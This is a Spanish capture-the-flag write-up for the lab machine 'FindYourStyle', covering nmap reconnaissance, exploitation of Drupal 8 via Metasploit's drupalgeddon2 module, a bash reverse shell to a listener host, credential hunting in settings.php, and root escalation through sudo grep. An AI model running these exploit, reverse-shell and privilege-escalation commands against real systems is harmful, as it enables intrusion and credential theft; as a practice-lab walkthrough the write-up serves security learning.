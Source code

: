 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  16/10/2024
---
```


# FindYourStyle

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (953).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (954).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web que está alojada a través de un **Drupal 8**.

<figure><img src="../../.gitbook/assets/image (956).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Esta versión contiene varios exploits pero voy a explotar uno concretamente con **Metasploit**.

```bash
msfconsole
search drupal 8
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOSTS 172.17.0.2
exploit
```

<figure><img src="../../.gitbook/assets/image (958).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (959).png" alt=""><figcaption></figcaption></figure>

En meterpreter.

<pre><code><strong>shell 
</strong>bash -i
find / -name settings.php 2>/dev/null
</code></pre>

<figure><img src="../../.gitbook/assets/image (960).png" alt=""><figcaption></figcaption></figure>

Nos mandamos una Reverse Shell.

```bash
/bin/bash -i >& /dev/tcp/192.168.255.136/443 0>&1
```

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (961).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Nos logueamos con el usuario **ballenita** que hemos encontrado.

<figure><img src="../../.gitbook/assets/image (962).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **grep** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/grep/#sudo)cómo explotarlo. Vamos a leer si hay en el directorio de `/root`.

```bash
sudo -u root /bin/ls /root/
sudo grep '' /root/secretitomaximo.txt
```

<figure><img src="../../.gitbook/assets/image (963).png" alt=""><figcaption></figcaption></figure>

Nos convertirnos en **root** con esas credenciales.

<figure><img src="../../.gitbook/assets/image (965).png" alt=""><figcaption></figcaption></figure>
